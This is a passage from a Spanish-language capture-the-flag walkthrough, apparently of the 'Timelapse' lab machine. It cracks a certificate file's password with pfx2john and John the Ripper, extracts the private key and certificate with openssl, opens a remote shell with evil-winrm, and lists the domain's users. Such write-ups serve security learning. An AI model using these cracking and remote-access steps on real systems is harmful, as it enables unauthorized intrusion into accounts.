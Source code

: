 Nos pedira una contraseña, si ingresamos la de **supremelegacy** nos dira que es incorrecta, asi que podemos probar con **pfx2john** para sacar el hash y luego crackearlo (otra forma es usar **crackpkcs12**)

```ruby
pfx2john legacyy_dev_auth.pfx > hashPfx
```

```ruby
john --wordlist=/usr/share/wordlists/rockyou.txt hashPfx
```

Y tenemos la contraseña: **thuglegacy**, ahora ya podemos sacar el certificado y la clave:

```ruby
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

```ruby
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

Ahora ya nos podemos conectar con **EvilWinRM** con SSL

```ruby
evil-winrm -S -i timelapse.htb -c cert.pem -k key.pem 
```

Y ya somos **legacyy**

![](/assets/img/timelapse/4.png)


### legacyy --> svc_deploy

Si empezamos a enumerar, podemos ver que si listamos los usuarios en el sistema con el comando **net user** podemos ver varios:

```ruby
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
```
